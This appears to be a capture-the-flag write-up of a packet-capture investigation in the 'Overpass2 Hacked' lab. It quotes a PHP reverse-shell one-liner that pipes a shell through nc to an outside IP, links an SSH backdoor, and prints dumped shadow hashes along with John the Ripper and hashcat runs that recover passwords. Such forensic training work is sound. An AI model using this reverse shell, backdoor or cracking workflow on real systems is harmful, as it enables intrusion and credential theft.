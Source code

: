# Overpass2 Hacked

### Analyze pcap using wireshark.
* Open in Wireshark
    * Found that they used /development as a page to uploado a reverse shell.
    * They used this PHP code to gain it.
    ```
    <?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
    ```
    * Found a password in the pcap: whenevernoteartinstant. It's a password that has sudo access.
    * They used this backdoor to establish a persistent shell https://github.com/NinjaJc01/ssh-backdoor

    * ### Hacker got the contents of /etc/shadow.
    ``` 
    root:*:18295:0:99999:7:::
    daemon:*:18295:0:99999:7:::
    bin:*:18295:0:99999:7:::
    sys:*:18295:0:99999:7:::
    sync:*:18295:0:99999:7:::
    games:*:18295:0:99999:7:::
    man:*:18295:0:99999:7:::
    lp:*:18295:0:99999:7:::
    mail:*:18295:0:99999:7:::
    news:*:18295:0:99999:7:::
    uucp:*:18295:0:99999:7:::
    proxy:*:18295:0:99999:7:::
    www-data:*:18295:0:99999:7:::
    backup:*:18295:0:99999:7:::
    list:*:18295:0:99999:7:::
    irc:*:18295:0:99999:7:::
    gnats:*:18295:0:99999:7:::
    nobody:*:18295:0:99999:7:::
    systemd-network:*:18295:0:99999:7:::
    systemd-resolve:*:18295:0:99999:7:::
    syslog:*:18295:0:99999:7:::
    messagebus:*:18295:0:99999:7:::
    _apt:*:18295:0:99999:7:::
    lxd:*:18295:0:99999:7:::
    uuidd:*:18295:0:99999:7:::
    dnsmasq:*:18295:0:99999:7:::
    landscape:*:18295:0:99999:7:::
    pollinate:*:18295:0:99999:7:::
    sshd:*:18464:0:99999:7:::
    james:$6$7GS5e.yv$HqIH5MthpGWpczr3MnwDHlED8gbVSHt7ma8yxzBM8LuBReDV5e1Pu/VuRskugt1Ckul/SKGX.5PyMpzAYo3Cg/:18464:0:99999:7:::
    paradox:$6$oRXQu43X$WaAj3Z/4sEPV1mJdHsyJkIZm1rjjnNxrY5c8GElJIjG7u36xSgMGwKA2woDIFudtyqY37YCyukiHJPhi4IU7H0:18464:0:99999:7:::
    szymex:$6$B.EnuXiO$f/u00HosZIO3UQCEJplazoQtH8WJjSX/ooBjwmYfEOTcqCAlMjeFIgYWqR5Aj2vsfRyf6x1wXxKitcPUjcXlX/:18464:0:99999:7:::
    bee:$6$.SqHrp6z$B4rWPi0Hkj0gbQMFujz1KHVs9VrSFu7AU9CxWrZV7GzH05tYPL1xRzUJlFHbyp0K9TAeY1M6niFseB9VLBWSo0:18464:0:99999:7:::
    muirland:$6$SWybS8o2$9diveQinxy8PJQnGQQWbTNKeb2AiSp.i8KznuAjYbqI3q04Rf5hjHPer3weiC.2MrOj2o1Sw/fd2cu0kC6dUP.:18464:0:99999:7:::
    ```
# John was able to crack 4 passwords from the shadow file.
```
┌──(zeus-kali㉿kali-vm)-[~/ctf/tryhackme/overpass2hacked]
└─$ john shadowed --wordlist=/usr/share/wordlists/fasttrack.txt 
Using default input encoding: UTF-8
Loaded 5 password hashes with 5 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
secret12         (bee)
abcd123          (szymex)
1qaz2wsx         (muirland)
secuirty3        (paradox)
4g 0:00:00:00 DONE (2021-08-21 18:02) 28.57g/s 1585p/s 7928c/s 7928C/s Spring2017..starwars
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

### The backdoor the hacker used has a default hash
* bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3
### The backdoor also has a hardcoded salt as 1c362db832f3f864c8c2fe05f2002a05

### Hacker ran this command, which looks like he provided a hash...
```
/backdoor -a 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed
```

# We can use hashcat to crack the password.
### hashcat -m 1710 -a 0 -o cracked.txt hackerhash /usr/share/wordlists/rockyou.txt
#### hashcat gave us this

# We can actually use JOHN for this!!!
## john-the-ripper --format='dynamic=sha512($p.$s)' --wordlist=./rockyou.txt backdoor-hash
```
6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05:november16
```
